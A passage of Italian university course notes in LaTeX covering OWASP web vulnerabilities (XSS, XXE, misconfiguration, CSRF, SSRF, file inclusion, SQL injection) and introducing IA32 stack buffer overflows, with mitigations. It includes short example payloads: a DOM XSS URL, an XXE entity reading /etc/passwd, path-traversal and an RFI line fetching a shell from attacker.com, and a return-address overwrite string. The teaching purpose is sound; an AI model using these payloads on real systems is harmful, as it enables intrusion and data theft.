\end{figure}

Nel \textbf{DOM XSS} il codice vulnerabile non è sul server ma in uno script già presente nella pagina, che processa dati provenienti dal DOM (es. \texttt{document.location.href}) senza sanificarli. Il payload può essere inserito nel frammento della URL (dopo \texttt{\#}), che non viene mai inviato al server e quindi non può essere filtrato lato server.

\begin{lstlisting}[language=html]
	<script>
	document.write("Site is at: " + document.location.href + ".");
	</script>
\end{lstlisting}

URL malevola:
\begin{lstlisting}
	http://www.yourdomain.com/brokenpage.html#<script>alert('Hijacked!');</script>
\end{lstlisting}

\subsection{Penetration testing per injection}
Nell'approccio \textbf{White Box} si dispone del codice sorgente e si analizza staticamente. Nell'approccio \textbf{Black Box} si stimola l'applicazione con input ragionati osservando le risposte. Quando l'applicazione non restituisce i dati direttamente ma solo messaggi generici di successo o errore, si parla di \textbf{blind injection}: per estrarre informazioni si possono iniettare operazioni lente (es. \texttt{sleep}) e misurare il tempo di risposta, osservare differenze nelle pagine di errore, o iniettare operazioni di \textit{pingback} per segnalare verso l'esterno il successo dell'iniezione ed esfiltrare dati.

\subsection{Impatto e mitigazione}
L'impatto può essere molto elevato: lettura o modifica di dati, accesso agli schemi del database, esecuzione di codice con i privilegi dell'account di sistema. Le mitigazioni fondamentali sono l'uso di \textbf{bind variables} (parametri separati dal codice SQL), il principio del \textbf{minimo privilegio} sull'account database, e soprattutto la sanitizzazione rigorosa di qualsiasi input esterno prima di passarlo a un interprete.

\noindent\rule{\textwidth}{0.4pt}

\section{A4 – Insecure Design}

Questa categoria sottolinea la necessità di incorporare la sicurezza fin dalle fasi iniziali del progetto, non solo come correzione a posteriori. Gli strumenti raccomandati sono il \textbf{threat modeling} (analisi sistematica delle minacce), i \textbf{secure design patterns} e le \textbf{reference architectures}. Il concetto chiave è il paradigma \textbf{shift left}: anticipare le attività di testing e verifica della sicurezza alle fasi più precoci del ciclo di sviluppo del software, riducendo il costo di correzione dei difetti.

\noindent\rule{\textwidth}{0.4pt}

\section{A5 – Security Misconfiguration}

È una categoria molto ampia che abbraccia tutti i livelli dello stack: servizi di rete, web server, application server, database, framework, codice custom, VM, container, storage. Gli errori ricorrenti sono: mancato rispetto del minimo privilegio, funzioni non necessarie installate o abilitate, credenziali di default non cambiate, diagnostica che espone dati interni, regressione a configurazioni insicure dopo aggiornamenti, scelta di modalità di funzionamento non sicure.

\subsection{Credenziali di default}
Un problema diffuso non solo nel web: esistono database pubblici con migliaia di credenziali di default per dispositivi hardware, DBMS e immagini di macchine virtuali. Un sistema installato senza modificare le credenziali predefinite è immediatamente accessibile da chiunque conosca quei valori.

\subsection{Configurazione TLS}
Sul fronte del protocollo, un errore frequente è abilitare versioni obsolete di TLS (SSL, TLSv1.0, TLSv1.1) o cifrari deboli (RC4, DES, NULL, Export). Le configurazioni raccomandate prevedono almeno TLSv1.2, cifrari a 128+ bit con proprietà di \textbf{Forward Secrecy}, chiavi asimmetriche con modulo di 2048+ bit e SHA-2. Strumenti come \texttt{ssllabs.com/ssltest} permettono di valutare automaticamente la configurazione HTTPS di un server.

\subsection{Header HTTP di sicurezza}
Diversi header di risposta HTTP consentono al server di istruire il browser su come comportarsi in modo sicuro.

Per il \textbf{controllo del contenuto della pagina}: \texttt{X-Frame-Options} limita l'embedding della pagina in frame (\texttt{DENY}, \texttt{SAMEORIGIN}, \texttt{ALLOW-FROM <url>}); \texttt{X-XSS-Protection: 1; mode=block} attiva il filtro XSS del browser; \texttt{Content-Security-Policy: default-src 'self'} impedisce il caricamento di script da origini esterne.

Per la \textbf{gestione dei dati HTTP}: \texttt{X-Content-Type-Options} previene il MIME-sniffing, riducendo il rischio che il browser interpreti una risposta come un tipo diverso da quello dichiarato; \texttt{Cache-Control: no-store} e le direttive compatibili HTTP/1.0 impediscono la memorizzazione in cache di dati sensibili.

Per l'\textbf{autenticità dei siti}: \texttt{Strict-Transport-Security} (HSTS) impone al browser di interagire col server solo tramite HTTPS; \texttt{Public-Key-Pins} lega una chiave pubblica a un dominio per resistere alla falsificazione di certificati X.509.

La corretta impostazione degli header può essere verificata con strumenti come \texttt{securityheaders.io}.

\subsection{Same Origin Policy e CORS}
Il Web si basa sulla condivisione di risorse tra domini diversi, ma questo crea opportunità di attacco. La \textbf{Same Origin Policy} (SOP) è la misura di base: pagine e script caricati da un'origine possono accedere solo a risorse della stessa origine, impedendo per esempio a uno script iniettato dal dominio A di leggere i cookie impostati dal dominio B.

Il \textbf{Cross-Origin Resource Sharing} (CORS) è il meccanismo per rilassare in modo controllato i vincoli SOP. Il browser, prima di inviare una richiesta cross-origin, aggiunge l'header \texttt{Origin: domain-a.com}; il server di destinazione risponde con \texttt{Access-Control-Allow-Origin} dichiarando quali origini sono autorizzate; il browser verifica la corrispondenza prima di consegnare la risposta alla pagina richiedente.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 33.png}
\end{figure}

È importante non affidarsi a CORS come unica misura di sicurezza: il controllo lato browser non deve far abbassare la guardia lato server, che deve continuare a verificare autonomamente i permessi.

\subsection{XXE – XML External Entities}
XML permette di includere riferimenti a entità esterne, che vengono de-referenziate dal parser. Inviare un documento XML malevolo a un parser che non disabilita questa funzionalità può consentire la lettura di file dal server, attacchi SSRF, o esfiltrazione di dati tramite messaggi d'errore.

\begin{lstlisting}[language=xml]
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck><productId>&xxe;</productId></stockCheck>
\end{lstlisting}

La risposta del server includerà il contenuto di \texttt{/etc/passwd}. Usando \texttt{SYSTEM} con URI arbitrari si possono anche avviare richieste verso servizi interni normalmente non accessibili dall'esterno (\textbf{SSRF}), o scatenare un \textbf{DoS} tramite espansione esponenziale di entità (\textit{Billion Laughs Attack}).

Le mitigazioni sono: preferire formati più semplici come JSON quando XML non è strettamente necessario; usare parser aggiornati; disabilitare il supporto alle external entity e ai DTD; sanitizzare l'input.

\noindent\rule{\textwidth}{0.4pt}

\section{A6 – Vulnerable and Outdated Components}

L'utilizzo di componenti software con vulnerabilità note è una delle cause più frequenti di compromissione. L'impatto potenziale è illimitato: esecuzione di codice remoto, violazioni AAA, esfiltrazione di dati. Esempi storici rilevanti includono Heartbleed (OpenSSL), ShellShock (Bash), GHOST (Linux) e DROWN (OpenSSL). Il numero di CVE pubblicati ogni anno è in costante crescita, rendendo il monitoraggio continuo degli aggiornamenti un'attività impegnativa ma indispensabile.

\noindent\rule{\textwidth}{0.4pt}

\section{A7 – Identification and Authentication Failures}

Le applicazioni web gestiscono la continuità della sessione autenticata attraverso un \textbf{token} di sessione, scambiato in modo trasparente tra browser e server a ogni richiesta. Una gestione scorretta di questo meccanismo può consentire a un attaccante di impersonare un utente legittimo.

I problemi principali riguardano il token quando: è prevedibile (es. sequenziale); è intercettabile (trasmesso in chiaro anziché via HTTPS); non è legato strettamente all'utente (può essere copiato e usato da un'altra postazione); non scade dopo un periodo di inattività; non viene invalidato al termine della sessione.

\subsection{Session Fixation}
L'attaccante avvia una sessione sul server in modo da ottenere un token valido, poi convince la vittima a proseguire quella stessa sessione (es. includendo il token nella URL di un link di phishing). Quando la vittima si autentica, il token già in possesso dell'attaccante diventa un token autenticato, permettendogli di accedere all'account.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 34.png}
\end{figure}

\subsection{CSRF – Cross-Site Request Forgery}
Il browser include automaticamente tutti i cookie e i token di sessione in ogni richiesta inviata verso un determinato dominio, indipendentemente da quale pagina stia originando la richiesta. Un attaccante può costruire una pagina che, quando visitata dalla vittima già autenticata su un altro sito, emette silenziosamente una richiesta verso quel sito con i parametri desiderati dall'attaccante (es. un bonifico bancario).

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 35.png}
\end{figure}

La mitigazione principale è includere in ogni operazione sensibile un \textbf{token anti-CSRF}: un valore segreto, univoco e non prevedibile (es. in un campo hidden del form) che il server verifica prima di eseguire l'operazione. Il server dovrebbe anche validare l'header \texttt{Referer} o richiedere header HTTP custom che le richieste cross-site non possono impostare.

\noindent\rule{\textwidth}{0.4pt}

\section{A8 – Software and Data Integrity Failures}

Questa categoria abbraccia due aree correlate.

La prima riguarda la \textbf{catena di fornitura del software}: uso di plugin da fonti non verificate, pipeline di CI/CD che consentono l'iniezione di codice malevolo, livelli di autenticazione ridotti nelle fasi di aggiornamento rispetto all'installazione iniziale. Un esempio emblematico è l'attacco \textbf{SolarWinds Orion} (2020), in cui il meccanismo di aggiornamento automatico del software fu compromesso, distribuendo codice malevolo a circa 18.000 organizzazioni clienti, con circa 100 compromissioni confermate tra Microsoft, Intel e Cisco.

La seconda area è la \textbf{deserializzazione insicura}. La \textbf{serializzazione} è il processo che trasforma un oggetto strutturato in un flusso sequenziale di byte, adatto alla trasmissione in rete o alla memorizzazione; la \textbf{deserializzazione} è il processo inverso. Sul web, oggetti serializzati transitano in cookie, parametri di form, token di autenticazione e risposte di web service.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 36.png}
\end{figure}

Un'applicazione è vulnerabile se l'oggetto serializzato viene passato in chiaro o senza controllo di accesso, o se il deserializzatore non verifica l'integrità dello stream. Le conseguenze possono includere l'esecuzione di codice arbitrario (passando oggetti Java o .NET) o la scalata di privilegi (modificando il ruolo dell'utente codificato nel cookie). Le mitigazioni sono: evitare di deserializzare dati non fidati; usare librerie con controllo stretto dei tipi; applicare sandboxing e monitorare i tentativi di brute force.

\noindent\rule{\textwidth}{0.4pt}

\section{A9 – Security Logging and Monitoring Failures}

Non è una vulnerabilità in senso stretto, ma un'insufficienza che facilita il lavoro dell'attaccante e impedisce una risposta efficace. Gli errori comuni sono: non tracciare accessi falliti, transazioni con errori o invocazioni API non corrette; non dettagliare sufficientemente gli eventi; non proteggere i log in termini di integrità, riservatezza e conservazione; non definire procedure di risposta agli incidenti.

Le conseguenze pratiche sono la mancata rilevazione di attacchi brute force in corso, l'impossibilità di ricostruire la dinamica di un attacco per correggere la vulnerabilità sfruttata, e l'impossibilità di quantificare e riparare il danno subito.

\noindent\rule{\textwidth}{0.4pt}

\section{A10 – Server-Side Request Forgery (SSRF)}

Un'applicazione è vulnerabile a SSRF quando riceve dall'utente una URL, non esegue verifiche adeguate su di essa e la utilizza per richiedere una risorsa remota per conto del server. Il risultato è che l'attaccante può usare il server come proxy per raggiungere risorse normalmente inaccessibili dall'esterno: enumerare e accedere a servizi interni protetti da firewall, eseguire codice su sistemi interni, o esfiltrare dati da infrastrutture non direttamente esposte.

\subsection{La Pratica del Web Pentesting (Teoria)}
Il penetration testing su un'applicazione web segue fasi standard (Enumeration, Directory Discovering, Login Bruteforce, Vulnerability Exploitation). Nei test si utilizzano spesso applicazioni vulnerabili di riferimento (come \textbf{DVWA} - \textit{Damn Vulnerable Web App}) per simulare scenari reali.

\begin{itemize}
	\item \textbf{Enumeration e Web Content Scanning}: Poiché i server web non espongono un indice pubblico di tutte le directory, si utilizzano tecniche di brute-forcing su URL e path. Strumenti come \textbf{Gobuster} iterano su wordlist predefinite (es. \texttt{SecLists}) per scoprire pagine di amministrazione, file di backup o directory nascoste restituite con codici HTTP validi (es. 200 OK o 301 Redirect).
	\item \textbf{Generazione Wordlist Mirate}: Per attacchi a dizionario efficaci si effettua la profilazione del bersaglio. Strumenti come \textbf{cewl} effettuano lo spidering delle pagine web del target per estrarre parole chiave ricorrenti e generare wordlist su misura.
\end{itemize}

\subsection{Intercettazione e Manipolazione (Web Proxy)}
L'interazione diretta tramite browser è limitata, in quanto i controlli client-side (es. validazione JavaScript) impediscono di inserire input anomali. Si utilizzano quindi i \textbf{Web Proxy} (come \textbf{Burp Suite}), che si interpongono tra client e server. Questo permette al pentester di catturare, ispezionare, modificare in transito e ripetere le singole richieste HTTP/HTTPS prima che raggiungano il server.

\subsection{Metodologie di Exploitation}
\begin{itemize}
	\item \textbf{Brute Force Online}: Sfruttando le richieste catturate dal proxy (es. un form POST di login), si usano strumenti come \textbf{Hydra} per iniettare massivamente combinazioni di username e password direttamente contro il form HTTP.
	\item \textbf{File Inclusion (FI)}: Vulnerabilità che permette di includere file locali o remoti in una richiesta.
	\begin{itemize}
		\item \textbf{LFI (Local File Inclusion / Path Traversal)}: Sfrutta parametri vulnerabili per risalire l'albero delle directory tramite i caratteri \texttt{../} (es. \texttt{?page=../../../../etc/passwd}) e forzare la lettura di file locali del sistema operativo.
		\item \textbf{RFI (Remote File Inclusion)}: Se l'applicazione non valida gli URL e la configurazione PHP lo consente, l'attaccante può forzare l'inclusione di uno script malevolo ospitato su un server sotto il suo controllo (es. \texttt{?page=http://attacker.com/shell.php}), ottenendo una \textit{Remote Command Execution} (RCE).
	\end{itemize}
	\item \textbf{Command Injection}: Sfrutta la mancata sanificazione dell'input per concatenare comandi di sistema arbitrari a quelli previsti dall'applicazione (es. un banale \texttt{ping}). Si basa sull'uso dei metacaratteri di concatenazione delle shell Linux (\texttt{\&\&}, \texttt{||}, \texttt{;}).
	\item \textbf{SQL Injection (UNION-based)}: Per estrarre dati non previsti dalla query originale si utilizza l'operatore \texttt{UNION}, seguendo un metodo rigoroso:
	\begin{enumerate}
		\item Si determina il numero esatto di colonne della query originale (usando \texttt{ORDER BY} o iniettando \texttt{NULL} multipli finché la query non va a buon fine).
		\item Si sfrutta l'\textbf{information\_schema} (lo standard SQL per i metadati) per enumerare dinamicamente la struttura del database. Interrogando \texttt{information\_schema.schemata}, \texttt{tables} e \texttt{columns} si estraggono i nomi esatti dei database, delle tabelle (es. \texttt{users}) e delle colonne (es. \texttt{username}, \texttt{password}) necessari per il dump finale.
	\end{enumerate}
\end{itemize}

\chapter{Binary Exploits}

\section{Attacchi applicativi}

Gli \textbf{attacchi applicativi} sfruttano vulnerabilità del sistema operativo, dell'hardware sottostante o del software in esecuzione locale, senza coinvolgere protocolli di rete al di sotto del livello applicativo né l'infrastruttura di rete. Il contesto di riferimento di questo corso è il sistema operativo Linux su architettura Intel IA32, scelta che privilegia la comprensibilità rispetto al realismo, ma le considerazioni si estendono ad altri OS e architetture.

Lo scopo di un exploit è far eseguire a un processo operazioni per cui non era stato progettato. Gli obiettivi possibili, non mutualmente esclusivi, sono: provocare un crash del processo (\textbf{Denial of Service}), dirottare il flusso di esecuzione per eseguire codice maligno, oppure ottenere i privilegi di altri utenti. Le tecniche spaziano dalle ottimizzazioni hardware (Spectre, Meltdown, Rowhammer) alle specificità del linguaggio macchina generato da codice compilato, fino alla gestione dell'input da parte di interpreti di linguaggi ad alto livello.

La maggior parte delle vulnerabilità riguarda codice scritto in C/C++: questi linguaggi, essendo più vicini all'hardware, non eseguono controlli automatici sui dati. Linguaggi di più alto livello come Ada aggiungono controlli automatici in fase di compilazione, riducendo la superficie d'attacco.

\noindent\rule{\textwidth}{0.4pt}

\section{Processo in memoria}

Sotto Linux, lo spazio di indirizzamento di un processo è suddiviso in segmenti: \texttt{.text} (codice eseguibile), \texttt{.data} (variabili statiche inizializzate), \texttt{.bss} (variabili non inizializzate), lo \textbf{stack} di esecuzione (record di attivazione e variabili locali) e l'\textbf{heap} (variabili allocate dinamicamente). Esistono anche segmenti ausiliari come \texttt{.got}, \texttt{.ctor}, \texttt{.dtor}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 37.png}
\end{figure}

Il programmatore lavora sempre con indirizzi virtuali, tradotti in indirizzi fisici dall'OS con supporto hardware. I segmenti non sono necessariamente contigui. Un aspetto cruciale è la direzione di crescita: lo stack cresce verso indirizzi decrescenti (verso il basso), mentre l'heap cresce verso indirizzi crescenti (verso l'alto).

\noindent\rule{\textwidth}{0.4pt}

\section{Architettura IA32}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 38.png}
\end{figure}

L'architettura IA32 dispone di quattro registri general purpose a 32 bit: \texttt{EAX}, \texttt{EBX}, \texttt{ECX}, \texttt{EDX}. Due registri supportano operazioni di copia in memoria: \texttt{ESI} (source) ed \texttt{EDI} (destination). Il controllo di flusso è gestito da \texttt{EIP} (Instruction Pointer) e \texttt{EFLAGS} (Status Register).

Per la gestione dello stack sono fondamentali altri due registri. \textbf{ESP} (stack pointer) punta all'ultima cella occupata: \texttt{PUSH} decrementa ESP di 4 byte e scrive il valore, mentre \texttt{POP} legge il valore e incrementa ESP di 4. \textbf{EBP} (base pointer) punta alla base del frame locale corrente: tutte le variabili locali vengono referenziate come offset rispetto a EBP.

\noindent\rule{\textwidth}{0.4pt}

\section{Convenzioni di chiamata C su IA32}

La traduzione da C ad assembly segue convenzioni standard. La convenzione di default è \textbf{\texttt{\_\_cdecl}}: i parametri vengono inseriti sullo stack in ordine inverso rispetto alla firma del metodo, la chiamata avviene tramite l'istruzione \texttt{CALL} (che fa il push dell'indirizzo di ritorno e carica l'indirizzo della funzione in EIP), il risultato viene restituito nel registro \texttt{EAX}. Il chiamato è responsabile di salvare e ripristinare \texttt{EBP}, mentre il chiamante rimuove i parametri dallo stack dopo il ritorno.

Esistono altre due convenzioni: \texttt{\_\_stdcall}, identica alla \texttt{\_\_cdecl} salvo che la pulizia dei parametri dallo stack è a carico del chiamato; e \texttt{\_\_fastcall}, in cui i parametri vengono passati tramite i registri general purpose (da EAX a EDX, più ESI e EDI), con un limite di 6 parametri a 32 bit.

\noindent\rule{\textwidth}{0.4pt}

\section{Esempio di chiamata e struttura dello stack}

Il seguente esempio illustra come il compilatore traduce una chiamata C in assembly con convenzione \texttt{\_\_cdecl}.

\begin{lstlisting}[language={[x86masm]Assembler}]
	; --- Lato chiamante ---
	0x8040200A  PUSH    0x5          ; parametro b (ordine inverso)
	0x8040200F  PUSH    0x4          ; parametro a
	0x80402015  CALL    _sum         ; push return address + JMP a _sum
	0x8040201A  ADD     ESP, 0x8     ; rimozione parametri dallo stack
	0x8040201F  MOV     result, EAX  ; recupero del risultato
	
	; --- Lato chiamato: int __cdecl sum(int a, int b) ---
	PUSH    EBP               ; salva EBP del chiamante
	MOV     EBP, ESP          ; imposta il frame pointer
	SUB     ESP, 0x4          ; riserva spazio per variabile locale c
	MOV     [EBP-4], [EBP+8]  ; c = a
	ADD     [EBP-4], [EBP+12] ; c = c + b
	MOV     EAX, [EBP-4]      ; return c (via EAX)
	MOV     ESP, EBP          ; ripristina ESP
	POP     EBP               ; ripristina EBP
	RET                       ; POP EIP -> ritorno al chiamante
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 39.png}
\end{figure}

Durante l'esecuzione, lo stack cresce verso il basso nel seguente ordine: prima vengono pushati i parametri (\texttt{0x5} poi \texttt{0x4}), poi \texttt{CALL} inserisce automaticamente l'indirizzo di ritorno (\texttt{0x8040201A}), il chiamato salva il vecchio \texttt{EBP} e sposta EBP su ESP, infine viene riservato lo spazio per la variabile locale \texttt{c}. Al ritorno, \texttt{MOV ESP, EBP} e \texttt{POP EBP} ripristinano il frame del chiamante, e \texttt{RET} preleva l'indirizzo di ritorno dallo stack caricandolo in \texttt{EIP}.

\noindent\rule{\textwidth}{0.4pt}

\section{Stack Overflow}

\subsection{Meccanismo}
Lo \textbf{stack overflow} (o \textbf{buffer overflow sullo stack}) richiede due condizioni: la presenza di un buffer locale a una funzione (che risiede quindi sullo stack) e la possibilità di alimentarlo con input esterno senza controlli di lunghezza. Il linguaggio C non verifica automaticamente che i dati immessi in un array abbiano dimensione congrua; tale compito è delegato interamente al programmatore.

Il punto chiave è la direzione opposta tra crescita dello stack (verso indirizzi decrescenti) e riempimento del buffer (verso indirizzi crescenti). Se un buffer viene sovrascritto oltre i suoi limiti, i byte in eccesso vanno a sovrascrivere i dati dello stack che li precedono in memoria: il valore salvato di EBP e, soprattutto, l'\textbf{indirizzo di ritorno}.

\subsection{Esempio concreto}
\begin{lstlisting}[language=c]
	void function() {
		char buffer[10];
		gets(buffer);  // legge da stdin senza controllo di lunghezza
		...
	}
\end{lstlisting}

La funzione \texttt{gets} non controlla la lunghezza dell'input, rendendola intrinsecamente vulnerabile. Per raggiungere e sovrascrivere l'indirizzo di ritorno, l'attaccante deve fornire: 10 byte di padding per riempire il buffer, 4 byte per coprire il valore salvato di EBP, e infine 4 byte contenenti il nuovo indirizzo di ritorno desiderato.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 40.png}
\end{figure}

\subsection{Conseguenze}
Le conseguenze dell'attacco si articolano in tre scenari. Il primo è il \textbf{Denial of Service}: se l'indirizzo di ritorno illecito punta a una zona di memoria inaccessibile, il processo va in crash per \textit{segmentation fault}. Il secondo è lo \textbf{shell coding}: si inietta codice maligno come parte della stringa di input e si forza il salto su di esso. Il terzo è il \textbf{Return to LibC}: invece di iniettare codice, si costruisce sullo stack una chiamata a una funzione di libreria C già presente in memoria.

\subsection{Esempio di dirottamento del flusso}
\begin{lstlisting}[language=c]
	int validate() {
		char buffer[10];
		gets(buffer);
		if (/* Valid input */) return 1;
		else return 0;
	}
	void valid_code()   { /* Codice per utenti autorizzati */ ... }
	void invalid_code() { /* Codice per utenti non autorizzati */ ... }
\end{lstlisting}

Supponiamo che \texttt{valid\_code} si trovi all'indirizzo \texttt{0x0804D432}. Un attaccante che non conosca le credenziali può costruire la stringa:

\begin{lstlisting}
	"AAAAAAAAAABBBB\x32\xD4\x04\x08"
\end{lstlisting}

